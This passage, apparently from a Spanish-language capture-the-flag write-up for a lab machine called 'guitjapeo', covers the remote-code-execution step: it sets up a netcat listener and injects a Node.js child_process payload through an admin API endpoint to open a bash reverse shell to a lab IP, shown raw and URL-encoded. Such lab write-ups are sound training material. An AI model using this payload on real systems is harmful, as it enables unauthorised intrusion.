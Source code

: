 ![alt text](../../../assets/images/guitjapeo/image-9.png)

## RCE

Ahora como administrador tenemos acceso a otro endpoint `https://guitjapeo.thl/api/command/?cmd=clearUsers()`, parece que podemos enviar comandos con javascript, asi que preparamos un netcat escuchando en el puerto 12345 y cargamos la siguiente URL en el navegador o mediante curl con la cookie del usuario Administrador.

```bash
nc -lvnp 12345
```

Url encodeamos el siguiente javascript

```javascript
require('child_process').exec('bash -c "/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"')
```

y lo añadimos a la URL como

```
https://guitjapeo.thl/api/command/?cmd=require%28%27child_process%27%29.exec%28%27bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.116%2F12345%200%3E%261%22%27%29
```

![alt text](../../../assets/images/guitjapeo/image-10.png)
